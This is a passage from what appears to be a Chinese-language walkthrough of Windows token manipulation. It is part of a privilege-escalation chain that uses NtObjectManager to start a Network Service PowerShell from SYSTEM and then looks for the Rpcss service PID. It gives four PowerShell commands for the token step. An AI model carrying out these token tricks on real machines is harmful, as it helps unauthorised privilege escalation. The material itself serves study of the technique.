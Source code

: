 图22 system权限PowerShell

接着我们先导入先前下载的包，接着获取当前的会话令牌，然后创建新的 Network Service 令牌并添加 SID 到组，最后使用新的令牌启动一个 Network Service 的 PowerShell。具体命令如下。

```plain
Import-Module C:\NtObjectManager
$sess = Get-NtToken -Session
$token = Get-NtToken -Service NetworkService -AdditionalGroups $sess.LogonSid.Sid
New-Win32Process PowerShell -Token $token -CreationFlags NewConsole
```

开启 Network Service 的 PowerShell，如图23所示。

![](assets/1706773615-c941f99591ccaabae1cabd10d2787dc2.jpg)

图23 Network Service的PowerShell

首先我们需要知道 Rpcss 服务的 Pid。通过任务管理器查看 Rpcss 服务 Pid 如图24所示。
